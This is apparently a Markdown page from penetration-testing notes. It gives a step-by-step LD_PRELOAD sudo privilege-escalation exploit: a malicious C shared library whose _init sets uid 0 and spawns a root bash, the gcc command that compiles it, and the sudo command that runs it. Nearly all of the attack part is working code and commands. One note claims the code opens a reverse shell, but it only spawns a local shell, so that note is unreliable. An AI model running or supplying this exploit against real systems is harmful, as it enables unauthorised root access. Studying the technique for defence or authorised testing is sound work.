




### **Steps to Identify and Exploit LD_PRELOAD**

1.  To check if LD_PRELOAD is enabled, run sudo -l and look for env_keep+=LD_PRELOAD in the output.  
    `sudo -l`  

    
    
    ??? info "NOTE:"

        When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will  execute code as soon as the object is loaded.
    
2.  Craft a C file that will act as the malicious shared library. This library should include an initialization function (`_init`) to perform desired actions (e.g., opening a reverse shell, elevating privileges).
    
    ```C
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
    
    

    ??? info "NOTE:"

        This example provides a reverse shell to the attacker's machine.

3.  Compile the Malicious Code  
    `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`  
    
    
    
4.  Execute any binary you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object.  
    `sudo LD_PRELOAD=/tmp/preload.so /usr/bin/man`  
    
    